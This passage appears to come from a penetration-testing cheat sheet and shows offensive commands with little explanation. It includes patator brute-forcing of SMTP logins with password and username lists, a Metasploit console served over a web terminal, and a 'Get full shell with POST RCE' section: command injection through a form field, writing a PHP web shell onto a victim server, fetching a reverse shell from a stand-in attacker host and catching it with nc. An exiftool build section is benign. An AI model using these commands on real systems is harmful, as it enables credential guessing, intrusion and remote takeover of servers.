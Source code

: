 ```
```
### Patator is a multi-purpose brute-forcer

```
# git clone https://github.com/lanjelot/patator.git /usr/share/patator

# SMTP bruteforce
$ patator smtp_login host=192.168.17.129 user=Ololena password=FILE0 0=/usr/share/john/password.lst
$ patator smtp_login host=192.168.17.129 user=FILE1 password=FILE0 0=/usr/share/john/password.lst 1=/usr/share/john/usernames.lst
$ patator smtp_login host=192.168.17.129 helo='ehlo 192.168.17.128' user=FILE1 password=FILE0 0=/usr/share/john/password.lst 1=/usr/share/john/usernames.lst
$ patator smtp_login host=192.168.17.129 user=Ololena password=FILE0 0=/usr/share/john/password.lst -x ignore:fgrep='incorrect password or account name'
```
### Metasploit Web terminal via Gotty

```
$ service postgresql start
$ msfdb init
$ apt-get install golang
$ mkdir /root/gocode
$ export GOPATH=/root/gocode
$ go get github.com/yudai/gotty
$ gocode/bin/gotty -a 127.0.0.1 -w msfconsole
# open in browser http://127.0.0.1:8080
```
### Get full shell with POST RCE

```
attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Bwhoami&submit=submit' 'http://victum.tk/command.php'

attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Becho+%27%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%27+%3E+..%2Fshell.php&submit=submit' 'http://victum.tk/command.php'

attacker:~$ curl http://victum.tk/shell.php?cmd=id

# download reverse shell to server (phpshell.php)
http://victum.tk/shell.php?cmd=php%20-r%20%27file_put_contents%28%22phpshell.php%22,%20fopen%28%22http://attacker.tk/phpshell.txt%22,%20%27r%27%29%29;%27

# run nc and execute phpshell.php
attacker:~$ nc -nvlp 1337
```
### Exiftool - Read and write meta information in files

```
$ wget http://www.sno.phy.queensu.ca/~phil/exiftool/Image-ExifTool-10.13.tar.gz
$ tar xzf Image-ExifTool-10.13.tar.gz
$ cd Image-ExifTool-10.13
$ perl Makefile.PL
$ make
$ ./exiftool main.gif
```
### Get SYSTEM with Admin reverse_shell on Win7
